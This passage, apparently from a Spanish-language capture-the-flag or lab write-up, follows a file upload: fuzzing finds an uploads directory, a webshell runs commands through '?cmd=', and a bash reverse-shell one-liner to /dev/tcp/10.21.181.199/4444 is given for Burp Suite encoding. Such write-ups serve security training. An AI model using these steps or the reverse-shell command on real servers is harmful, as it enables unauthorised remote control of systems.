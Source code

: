 Hemos conseguido subir nuestro archivo, ahora tenemos que localizar el directorio donde se alojen los archivos subidos. Vamos a hacer *fuzzing* dentro del directorio `/internal`.

![20250604192748.png](/assets/media/20250604192748.png)

Tenemos el directorio `/uploads`, vamos hacia allí.

![20250604192846.png](/assets/media/20250604192846.png)

Aquí tenemos nuestro archivo, para ejecutar comandos, añadimos nuestro archivo a la *URL* y le ponemos `?cmd=` para ejecutar comandos en el servidor.

![20250604193140.png](/assets/media/20250604193140.png)

Y vemos que podemos ejecutar comandos. Vamos a transformar la *webshell* en una *reverse shell*. Para ello, debemos poner el típico comando de ejecutar una bash `(bash -c bash -i >& /dev/tcp/10.21.181.199/4444 0>&1)` de forma urlencodeada, esto lo podemos hacer a través de ***burpsuite***.
